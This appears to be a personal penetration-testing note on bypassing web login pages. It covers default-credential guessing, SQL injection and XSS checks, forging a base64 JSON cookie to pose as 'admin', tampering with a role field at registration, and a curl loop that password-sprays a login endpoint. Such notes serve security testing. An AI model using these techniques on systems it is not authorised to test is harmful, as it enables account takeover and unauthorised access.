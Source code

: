 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://www.hackingarticles.in/multiple-ways-to-exploiting-http-authentication/

#### Guessing
admin:admin
administrator:administrator
admin:`NAMEOFTOOL`

#### Googling
- [ ] Google for Default Creds!!

#### SQLi
- [ ] Bypass login with SQLi (Try 1 field at a time, then both).
[[SQL Payload]]

- [ ] Inject into registration page, then login page
![[Pasted image 20220927104458.png | 750]]

![[Pasted image 20220927104516.png | 750]]

#### XSS
- [ ] Test for XSS.
[[7._XSS]]

#### Register a user - Cookie evaluation
Sometimes you just need to register as a new user, and evaluate after.

Check cookies

![[Pasted image 20220105201411.png]]

`eyJ1c2VybmFtZSI6ImFkbWluMiJ9`

```bash - kali
echo "eyJ1c2VybmFtZSI6ImFkbWluMiJ9" | base64 -d
```

![[Pasted image 20220105201601.png]]

```bash - kali
echo '{"username":"admin"}' | base64
```

`eyJ1c2VybmFtZSI6ImFkbWluIn0K`

![[Pasted image 20220105201823.png]]

#### Admin role assignment
Register a new user while proxy through Burp / ZAP.
Look at the response for a role assignment:
![[Pasted image 20220905125447.png]]
```
"role": "admin",
```

![[Pasted image 20220902153332.png]]

#### Login page password spray curl bash script
```bash - kali
for user in $(cat users.txt); do curl 'http://$TARGET/login' --data "{\"username\":\"${user}\",\"password\":\"password\"}" -H "Content-Type: application/json" 2>/dev/null | grep -v Unauthorized && echo $user ; done
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
